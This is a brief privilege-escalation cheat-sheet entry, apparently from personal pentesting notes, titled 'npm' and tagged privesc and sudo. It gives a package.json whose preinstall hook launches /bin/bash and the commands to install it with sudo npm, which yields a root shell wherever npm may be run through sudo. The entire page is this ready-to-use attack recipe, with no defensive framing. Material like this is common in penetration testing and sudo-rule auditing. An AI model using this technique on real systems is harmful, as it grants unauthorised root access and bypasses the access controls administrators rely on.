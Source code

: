 ```yaml
---
title: "npm"
date: 2024-6-26
tags: ["npm", "nodejs", "privesc", "sudo"]
---
```


#### SUDO

Create a 'package.json'

<div>

```console
{
  "name": "root",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "/bin/bash"
  }
}
```

</div>

<br>

<div>

```console
mkdir test
```

```console
mv package.json test/
```

```console
sudo npm i test/ --unsafe
```

</div>

<br>